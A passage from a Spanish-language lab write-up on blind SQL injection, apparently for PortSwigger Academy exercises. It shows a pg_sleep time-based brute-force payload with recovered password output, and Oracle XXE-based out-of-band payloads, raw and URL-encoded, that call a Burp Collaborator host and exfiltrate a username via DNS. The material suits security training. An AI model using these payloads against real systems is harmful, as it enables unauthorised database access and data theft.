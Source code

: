 Unicamente tenemos que cambiar la mecanica de la comparacion que hace `r.status_code == 500` por `time_end - time_start > 1.5` a parte de que añadimos `time_start = time.time() y time_end = time.time()`y ya todo lo demas a lo que se nos ajuste a nuestro `request`...

```shell
python3 SQLI_Blind.py
```

Info:

```
[/] Fuerza bruta: fdDQYd0euaN829vd'||(select case when substring(password,20,1)='l' then pg_sleep(1.5) else pg_sleep(0) end from users where username='administrator')-- -
[ ] Password: 5xskvx9lqcuwtq1rakul
```

Con esto ya tendriamos la contraseña, por lo que nos logeamos y estaria listo...

### Lab: Blind SQL injection with out-of-band interaction

Aqui no va a servir nada de lo anterior ya que se tiene que hacer de una manera especifica, utilizando BurpSuit e interactuando con los servidores `DNS` y hacer un `DNS Lookup`...

En este caso tienes que tener BurpSuit comprado para hacer la parctica ya que tendriamos que obtener el codigo del `BurpSuit Colaboration Client` para poder ponerlo en el siguiente codigo, pero si se tuviera se inyectaria de la siguiente manera...

```mysql
'||(SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://<CODIGO_BURPSUIT_COLABORATION>/"> %remote;]>'),'/l') FROM dual)-- -
```

Y todo esto se tendria que URL Encodear para que funcione presionando `^U` en BurpSuit...

Quedaria algo tal que asi encodeado en URL...

```
'||(SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//<CODIGO_BURPSUIT_COLABORATION>/">+%25remote%3b]>'),'/l')+FROM+dual)--+-
```

### Lab: Blind SQL injection with out-of-band data exfiltration

En este caso es lo mismo que antes pero en modo `exfiltration`, lo hariamos de la siguiente manera...

```mysql
'||(SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(select username from users where username='administrator')||'.<CODIGO_BURPSUIT_COLABORATION>/"> %remote;]>'),'/l') FROM dual)-- -
```

Esto habria que URL Encodearlo, por lo que tendria que quedar algo tal que asi...

```
'||(SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(select+username+from+users+where+username%3d'administrator')||'.<CODIGO_BURPSUIT_COLABORATION>/">+%25remote%3b]>'),'/l')+FROM+dual)--+-
```
